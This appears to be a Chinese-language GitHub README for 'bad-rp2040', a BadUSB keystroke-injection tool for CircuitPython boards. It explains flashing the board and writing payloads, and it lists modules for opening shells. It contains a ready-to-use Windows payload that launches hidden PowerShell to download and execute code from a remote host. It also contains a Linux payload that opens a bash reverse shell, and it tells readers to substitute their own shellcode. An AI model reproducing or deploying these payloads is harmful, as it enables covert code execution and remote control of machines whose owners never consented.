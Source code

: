 # bad-rp2040

第一版 还要修修

## 使用教程

虽然名字叫做bad-rp2040，但理论上它可以支持其他能够使用CircuitPython的板子。

* 第一步
  
  按住BOOT按键进入烧入模式从[这里](https://circuitpython.org/board/raspberry_pi_pico/)找到合适的CircuitPython固件烧入

* 第二步
  
  烧入完成后再下载项目文件，修改payload.txt为你想要的内容，之后写入磁盘模式的开发板

* 第三步
  
  重新插拔开发板，不出意外开发板会自动模拟按键输入编写好的payload


### payload语法

> 目前尚在开发中，很多功能并不全面画横线的表示正在开发中

可用案例：

#### windows

```badusb
set Time 1
POWERSHELL
TOGGLE_INPUT
ECHO powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.255.1:8029/a'))"
```

#### linux

```badusb
set Time 1
LINUX_OPENSHELL
LINUX_RESHELL 127.0.0.1 4444
```

将最后的echo内容替换为你的shellcode即可

内置了快捷使用的模块

| 命令     | 作用                       |
-----------|---------------------------|
| POWERSHELL | 快速拉起powershell     |
| TOGGLE_INPUT | 快速切换输入法     |
| LINUX_OPENSHELL | 快速拉起linux shell   |
| LINUX_RESHELL | 使用bash -i反弹shell模板   |
| ECHO | 输出字符串     |

根据需求调用即可，echo语句用于输出字符串

### 语法表

| 命令     | 作用                       |
-----------|---------------------------|
| set Time | 设置命令隔时间 不建议太快    |

#### 注意

如自行编写payload.txt，请注意windows的自动大小写问题

### 后续开发计划

短期
* 完成目前列出的所有模组
* 完成计划的语法

长期
* 是否可以做到监听键盘输入

![run](https://s2.loli.net/2024/12/04/d4NjluG9nEImwUB.png)
![shell](https://s2.loli.net/2024/12/04/oTHgaxBFnsqUGNM.png)
![linux](https://s2.loli.net/2024/12/05/s46Hu5qOYEkiKX3.png)
